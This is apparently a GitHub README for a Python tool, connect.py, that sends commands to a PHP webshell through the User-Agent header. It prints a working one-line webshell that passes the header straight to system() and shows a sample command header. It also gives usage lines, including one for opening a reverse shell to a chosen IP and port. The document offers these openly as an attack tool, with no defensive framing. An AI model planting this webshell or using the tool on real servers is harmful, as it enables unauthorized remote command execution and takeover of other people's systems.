 this tool was created for automate process of make connections to  webshell by header

for example, when there is a page webshell.php with this code bellow
'''
<?php system($_SERVER['HTTP_USER_AGENT'])?>
'''
the Header '''User-Agent''' is accepting code execution in the server 

and you can execute commands as in the the example:
'''
User-Agent: ls
'''

<h1>How to use</h1>

default connection:

python3 connect.py [webpage] [Argument]

Reverse Shell connection:

python3 connect.py [webpage] [Argument] [reverse_shell_ip] [reverse_shell_port]

